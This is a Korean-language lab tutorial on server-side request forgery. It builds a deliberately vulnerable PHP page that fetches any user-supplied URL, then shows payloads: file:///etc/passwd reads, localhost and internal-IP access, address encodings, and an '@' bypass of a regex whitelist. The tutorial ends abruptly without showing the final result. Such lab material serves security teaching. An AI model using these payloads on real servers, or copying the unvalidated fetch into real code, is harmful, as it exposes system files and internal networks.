


# SSRF (Server Side Request Forgery)

서버단에서 요청을 발생시켜 내부시스템에 접근하거나 외부로 데이터를 유출할 수 있는 공격

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [SSRF](#SSRF)**

 - [LFI](#LFI)

 - [RFI](#RFI)

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

SSRF에 취약한 페이지를 만들자.

```php
<?php
    if (isset($_GET['url'])) $page = $_GET['url'];
    else $page = 'http://www.google.com';
    echo file_get_contents($page);
?>
```

로컬 호스트로만 접속할 수 있는 페이지(admin.php)를 만들자.

```php
<?php
    if ($_SERVER["REMOTE_ADDR"] == '127.0.0.1')  {
        echo 'hello world<br>';
    }
?>
```

# **SSRF**

외부 URL을 호출하여 내용을 출력하는 페이지이다. 아무 인자 없이 index.php에 접근 시 Google의 페이지를 확인할 수 있다.



## **LFI**

file wrapper를 이용하여 서버의 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=file:///etc/passwd |



혹은 로컬 호스트만 접속이 가능한 페이지를 접속하여 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://127.0.0.1/admin.php |

결과는 다음과 같다.

    hello world

127.0.0.1을 0.0.0.0이나, 0x7f000001으로 변환할 수 있다.

## **RFI**

서버의 내부 네트워크의 다른 서버가 존재한다면, 다른 서버의 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://10.10.0.55/ |

만약 다음과 같이 화이트리스트로 인자 값을 검사한다고 가정하자.

```php
<?php
    if (isset($_GET['url'])) $page = $_GET['url'];
    else $page = 'http://www.google.com';

    if(preg_match("/http:\/\/www.google.com/", $page)) {
        echo file_get_contents($page);
    }
?>
```

@를 이용하여 문자열 검사를 우회하여 외부 서버에 접속하여 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://www.google.com@www.naver.com |

결과는 다음과 같이 나온다.

